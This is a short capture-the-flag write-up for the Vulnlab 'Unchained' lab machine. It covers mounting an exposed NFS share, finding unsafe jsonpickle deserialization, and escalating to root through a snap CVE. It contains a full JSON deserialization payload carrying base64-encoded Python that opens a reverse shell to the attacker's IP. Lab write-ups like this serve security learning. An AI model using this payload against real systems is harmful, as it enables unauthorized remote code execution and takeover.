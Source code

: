 ```yaml
---
title: "Vulnlab - Unchained [Medium]"
category: ctf-writeup
layout: post
---
```


We can first mount the exposed NFS folder called `backup` to local folder called `mounted`.

```
sudo mount -t nfs -o nfsvers=3 10.10.89.250:/var/nfs/backup ./mounted -o nolock
```

We can see the source code is a project that is a result from this course:
- [https://www.udemy.com/course/build-your-own-proof-of-stake-blockchain](https://www.udemy.com/course/build-your-own-proof-of-stake-blockchain)

Upon reviewing the code that we got from the mount, we can see that the `/transaction` path that tries to `decode` the value of the `transaction`


![[Pasted image 20240229101409.png]]
Then it goes into the `BlockchainUtils.decode` which has the following code:

![[Pasted image 20240229101422.png]]
It is notable that the `jsonpickle` direct decoding can be vulnerable to deserialization, so I've crafted the following payload:

```
{
"transaction": "{\"py\/object\": \"__main__.Transaction\", \"syl\": {\"py\/reduce\": [{\"py\/type\": \"subprocess.Popen\"}, {\"py\/tuple\": [{\"py\/tuple\": [\"python3\", \"-c\", \"import base64;exec(base64.b64decode('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjguMC4xMDciLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJiYXNoIik='))\"]}]}]}}"
}
```

I did this payload from scratch, but I found an article that has much more efficient payload here:
- [https://medium.com/@0xbughunter/de-serialization-sometimes-pickle-can-be-too-sour-45c930e18b8e](https://medium.com/@0xbughunter/de-serialization-sometimes-pickle-can-be-too-sour-45c930e18b8e)

Nonetheless we can see that we got a connection back.

![[Pasted image 20240229165506.png]]

After that and after a bit of enumeration we can see that `snap` is in the user folder which kind-a hints that. The vulnerability is `CVE-2021-44731`, we can find a PoC on GitHub, after that we are `root`.